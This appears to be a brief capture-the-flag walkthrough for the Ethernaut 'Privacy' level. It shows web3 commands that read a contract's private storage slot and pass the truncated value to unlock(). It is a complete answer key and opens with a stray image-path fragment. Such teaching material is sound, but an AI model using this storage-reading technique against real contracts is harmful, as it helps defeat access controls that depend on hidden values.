 # Privacy

**HINT:** Take another look at 8Vault on how you accessed storage. Also look [here to understand more.](https://medium.com/coinmonks/ethernaut-lvl-12-privacy-walkthrough-how-ethereum-optimizes-storage-to-save-space-and-be-less-c9b01ec6adb6)
really help me understand a better.

<details>
<summary>Answer</summary>
<p>

```js
await web3.eth.getStorageAt("0xA14Cd379bCea0cEcd3bBD18C057734EB1B7268Ec", 5)
```
You'll get a hex like:
```
"0xb2ddc56d0346dea7be7879173c362d82d45c9a8673f41643a6aa601fd5e3a507"
```
Then you need to unlock **BUT** notice this is a bytes32 and the unlock function only accepts the first bytes16
```js
await contract.unlock("0xb2ddc56d0346dea7be7879173c362d82")
```
You can then check if its unlocked with:
```js
await contract.locked()
```
Should return false and you can then submit
</p>
</details>